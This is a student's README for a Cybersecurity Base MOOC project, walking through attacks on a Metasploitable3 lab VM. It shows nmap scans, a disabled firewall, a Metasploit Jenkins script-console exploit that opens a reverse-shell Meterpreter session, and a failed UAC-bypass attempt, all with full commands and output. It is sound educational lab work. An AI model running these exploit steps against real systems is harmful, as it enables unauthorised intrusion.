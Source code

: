 # cybersecuritybase-project-2

This is my take on Cybersecurity base MOOC project 2.

## The setup

Project was carried out with os x computer with metasploittable VM initialized via Vagrant. I modified the Vagrantfile provided slightly by exposing VM directly with known ip to host.

```
  config.vm.network "private_network", ip: "55.55.55.5"
```

This gave me the opportunity to install metasploit to my host machine and tinker with metasploittable "from the outside" - just as in a real life scenario. I knew it had a glassfish application server instance listening port 4848 and yes, I was able to access https://55.55.55.5:4848/ from my host machine.

### Installing snort to metasploittable



### Installing metasploit framework

I installed metasploit framework with these instructions provided here https://null-byte.wonderhowto.com/how-to/mac-for-hackers-install-metasploit-framework-0174517/ and my goal is to learn how to use it from console, instead of provided web-ui. Installing metasploit seemed pretty easy and updating exploit registry can be simply done just by `msfupdate`.

## Initial port scan

First thing I learned is that metasploittable can be set to "easy" and "hard" and this effectively means disabling or enabling firewall. Firewall can be disabled easily by ssh'ing to machine `vagrant ssh` and running `netsh advfirewall set allprofiles state off`. I guess enlightened reader can figure out how to re-enable firewall again.

Next, I figured out how to run nmap from metasploit console.

**nmap with firewall enabled**
```
msf > db_nmap  55.55.55.5
[*] Nmap: Starting Nmap 6.47 ( http://nmap.org ) at 2017-03-16 16:24 EET
[*] Nmap: Nmap scan report for 55.55.55.5
[*] Nmap: Host is up (0.00083s latency).
[*] Nmap: Not shown: 991 filtered ports
[*] Nmap: PORT      STATE SERVICE
[*] Nmap: 21/tcp    open  ftp
[*] Nmap: 22/tcp    open  ssh
[*] Nmap: 80/tcp    open  http
[*] Nmap: 4848/tcp  open  appserv-http
[*] Nmap: 8022/tcp  open  oa-system
[*] Nmap: 8080/tcp  open  http-proxy
[*] Nmap: 9200/tcp  open  wap-wsp
[*] Nmap: 49153/tcp open  unknown
[*] Nmap: 49154/tcp open  unknown
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 5.61 seconds
```

**nmap with firewall disabled**
```
msf > db_nmap  55.55.55.5
[*] Nmap: Starting Nmap 6.47 ( http://nmap.org ) at 2017-03-16 16:23 EET
[*] Nmap: Nmap scan report for 55.55.55.5
[*] Nmap: Host is up (0.0021s latency).
[*] Nmap: Not shown: 977 closed ports
[*] Nmap: PORT      STATE SERVICE
[*] Nmap: 21/tcp    open  ftp
[*] Nmap: 22/tcp    open  ssh
[*] Nmap: 80/tcp    open  http
[*] Nmap: 135/tcp   open  msrpc
[*] Nmap: 139/tcp   open  netbios-ssn
[*] Nmap: 445/tcp   open  microsoft-ds
[*] Nmap: 3306/tcp  open  mysql
[*] Nmap: 3389/tcp  open  ms-wbt-server
[*] Nmap: 4848/tcp  open  appserv-http
[*] Nmap: 7676/tcp  open  imqbrokerd
[*] Nmap: 8009/tcp  open  ajp13
[*] Nmap: 8022/tcp  open  oa-system
[*] Nmap: 8031/tcp  open  unknown
[*] Nmap: 8080/tcp  open  http-proxy
[*] Nmap: 8181/tcp  open  unknown
[*] Nmap: 8443/tcp  open  https-alt
[*] Nmap: 9200/tcp  open  wap-wsp
[*] Nmap: 49152/tcp open  unknown
[*] Nmap: 49153/tcp open  unknown
[*] Nmap: 49154/tcp open  unknown
[*] Nmap: 49157/tcp open  unknown
[*] Nmap: 49158/tcp open  unknown
[*] Nmap: 49159/tcp open  unknown
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 4.69 seconds
```
## First succesfull exploit

Here's brief instructions on how to use metasploit framework. At this time, snort was not installed, as I just wanted to first learn how to use metasploit.

```
fizzzzz: msfconsole 
                                                  
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v4.14.2-dev-437cba84b0563fb067757bb1ec03db9e01ed4579]
+ -- --=[ 1629 exploits - 929 auxiliary - 282 post        ]
+ -- --=[ 472 payloads - 39 encoders - 9 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > 
```

1. Select exploit
```
msf > use exploit/multi/http/jenkins_script_console 
msf exploit(jenkins_script_console) > 
```
2. Investigate exploit parameters
```
msf exploit(jenkins_script_console) > info

....

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  PASSWORD                    no        The password for the specified username
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOST                       yes       The target address
  RPORT      80               yes       The target port (TCP)
  SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
  SRVPORT    8080             yes       The local port to listen on.
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /jenkins/        yes       The path to the Jenkins-CI application
  URIPATH                     no        The URI to use for this exploit (default is random)
  USERNAME                    no        The username to authenticate as
  VHOST                       no        HTTP server virtual host
...
```
3. Set exploit arguments
```
msf exploit(jenkins_script_console) > set RHOST 55.55.55.5
RHOST => 55.55.55.5
msf exploit(jenkins_script_console) > set RPORT 8484
RPORT => 8484
msf exploit(jenkins_script_console) > set TARGETURI /
TARGETURI => /
```
4. EXPLOIT!
```
msf exploit(jenkins_script_console) > exploit

[*] Started reverse TCP handler on 55.55.55.1:4444 
[*] Checking access to the script console
[*] No authentication required, skipping login...
[*] 55.55.55.5:8484 - Sending command stager...
[*] Command Stager progress -   2.06% done (2048/99626 bytes)
...
[*] Command Stager progress -  98.67% done (98304/99626 bytes)
[*] Sending stage (957487 bytes) to 55.55.55.5
[*] Command Stager progress - 100.00% done (99626/99626 bytes)
[*] Meterpreter session 1 opened (55.55.55.1:4444 -> 55.55.55.5:49602) at 2017-03-16 20:57:05 +0200

meterpreter > 
```

Meterpreter console is additional part of metasploit and it's intention is to be stealthy console in remote machine. In example meterpreter is opened to a remote machine (the metasploittable3 vm via 55.55.55.5:8484). Now, because jenkins is not run with priviledged used we can't do anything really awesome directly (at least nothing that I'm aware of...).

Next step of using metasploitable is exploits that need session such as we have opened. We can run exploit that needs open session (usually reverse shell?) like this:
```
msf > use exploit/windows/local/bypassuac
msf exploit(bypassuac) > sessions

Active sessions
===============

  Id  Type                     Information                                   Connection
  --  ----                     -----------                                   ----------
  2   meterpreter x86/windows  NT AUTHORITY\LOCAL SERVICE @ METASPLOITABLE3  55.55.55.1:4444 -> 55.55.55.5:50400 (55.55.55.5)

msf exploit(bypassuac) > set SESSION 2
SESSION => 2
msf exploit(bypassuac) > exploit

[*] Started reverse TCP handler on 192.168.0.11:4444 
[-] Exploit aborted due to failure: no-access: Not in admins group, cannot escalate with this module
[*] Exploit completed, but no session was created.
```

Additional important commands include but are not limited to: `back` (unsets current exploit), `edit` (edits exploit's code, usable for checking out what exploit actually does).

